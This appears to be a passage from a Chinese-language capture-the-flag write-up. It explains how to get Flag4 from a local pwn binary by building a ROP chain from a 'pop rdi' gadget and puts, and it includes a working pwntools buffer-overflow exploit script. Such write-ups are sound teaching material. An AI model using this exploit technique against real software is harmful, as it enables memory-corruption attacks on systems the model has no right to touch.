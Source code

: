![image-20220405224440580](https://s2.loli.net/2022/04/05/9ifHF7leTxKC18A.png)

Flag4的话，又要用到一点新手段了，因为程序里没有直接的代码可以输出Flag4，所以需要我们自己构造ROP链来输出Flag4

因为函数中使用了puts函数，所以在程序的plt表中会有调用puts函数的代码，然后，再使用**ROPgadget**来找一段小代码片段，

`pop ret rdi`

有了这个片段之后，就可以把想要输出的数据存进RDI寄存器中并压入栈中，并被puts输出。

首先先找一下小片段代码的地址

![image-20220405230956283](https://s2.loli.net/2022/04/05/bBrwV91pyLd6tFZ.png)

可以看到，程序中确实有这一段代码可以用，然后，按照函数调用的方式，构造ROP链

Flag4代码如下：

```python
from pwn import *
import time

e = ELF("./pwn")
print(hex(e.address))
p = process("./pwn")

code = '10423'

for i in range(4):
	print(p.recvline())
	
p.sendline(code.encode())


print(p.recvline())
print(p.recvline())


pop_rdi = 0x00000000004016a3   #找到的符合条件的一小段代码片段
target = 0x4040E0    #Flag4的变量地址

f = b'a'*0x31 + b'b'*0x8 + p64(pop_rdi) + p64(target) + p64(e.plt['puts'])
#根据函数调用的方式构造的ROP链，相当于执行函数puts(flag4)

p.sendline(f)

print(p.recvline())
print(p.recvline())






```
